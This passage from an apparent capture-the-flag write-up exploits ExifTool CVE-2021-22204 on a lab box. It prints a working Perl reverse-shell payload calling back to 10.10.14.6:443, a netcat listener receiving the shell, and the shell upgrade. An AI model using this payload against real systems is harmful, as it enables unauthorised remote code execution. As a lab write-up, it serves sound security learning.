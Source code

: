 

    oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py -s 10.10.14.6 443

            _ __,~~~/_        __  ___  _______________  ___  ___
        ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
            |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
    _V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
        
    UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
    PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('10.10.14.6')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
    DEPENDS: Dependencies for exploit are met!
    PREPARE: Payload written to file!
    PREPARE: Payload file compressed!
    PREPARE: DjVu file created!
    PREPARE: JPEG image created/processed!
    PREPARE: Exiftool config written to file!
    EXPLOIT: Payload injected into image!
    CLEANUP: Old file artifacts deleted!
    SUCCESS: Exploit image written to "image.jpg"



I'll start `nc` listening on 443, and upload this new image. The site
hangs, but there's a shell at `nc`:



    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.140 60630
    /bin/sh: 0: can't access tty; job control turned off
    $ 



I'll upgrade my shell using `script` and `stty`:



    $ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 



## Shell as thomas

### Enumeration
